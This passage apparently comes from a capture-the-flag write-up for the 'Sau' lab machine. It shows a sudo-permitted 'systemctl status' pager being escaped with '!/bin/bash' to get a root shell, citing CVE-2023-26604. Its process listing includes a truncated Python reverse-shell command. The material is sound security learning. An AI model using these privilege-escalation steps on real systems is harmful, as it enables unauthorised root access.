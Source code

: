I found that the user has a Sudo permission to run `/usr/bin/systemctl status trail.service`, which should be the privilege escalation vector to focus on.

```
puma@sau:~$ sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
puma@sau:~$
```

###### systemctl status PE
I browsed for anything that I can do with `systemctl status`, and I found these following links:
- https://vigilance.fr/vulnerability/systemd-privilege-escalation-via-Systemctl-Status-Less-40889
- https://nvd.nist.gov/vuln/detail/CVE-2023-26604
- https://sploitus.com/exploit?id=EDB-ID:51674

Based on reading the articles, I found that `systemctl status [any service]` will output the result using `less`, which can be used to execute system commands. Since we are running with Sudo, this means that we can use the `less` to privilege escalate to `root`. Successfully obtained shell as `root` by running `!/bin/bash`.

```
puma@sau:/opt/maltrail$ sudo /usr/bin/systemctl status trail.service
WARNING: terminal is not fully functional
-  (press RETURN)● trail.service - Maltrail. Server of malicious traffic detection system
     Loaded: loaded (/etc/systemd/system/trail.service; enabled; vendor preset:>
     Active: active (running) since Wed 2025-02-05 12:10:24 UTC; 2h 30min ago
       Docs: https://github.com/stamparm/maltrail#readme
             https://github.com/stamparm/maltrail/wiki
   Main PID: 896 (python3)
      Tasks: 12 (limit: 4662)
     Memory: 208.6M
     CGroup: /system.slice/trail.service
             ├─ 896 /usr/bin/python3 server.py
             ├─1200 /bin/sh -c logger -p auth.info -t "maltrail[896]" "Failed p>
             ├─1202 /bin/sh -c logger -p auth.info -t "maltrail[896]" "Failed p>
             ├─1205 sh
             ├─1211 python3 -c import socket,os,pty;s=socket.socket(socket.AF_I>
             ├─1212 /bin/sh
             ├─1429 script /dev/null -c bash
             ├─1430 bash
             ├─1486 sudo /usr/bin/systemctl status trail.service
             ├─1487 /usr/bin/systemctl status trail.service
             └─1488 pager

Feb 05 14:28:36 sau sudo[1456]: pam_unix(sudo:auth): authentication failure; lo>
Feb 05 14:28:39 sau sudo[1456]: pam_unix(sudo:auth): conversation failed
lines 1-23!//bbiinn//bbaasshh!/bin/bash
root@sau:/opt/maltrail#
```
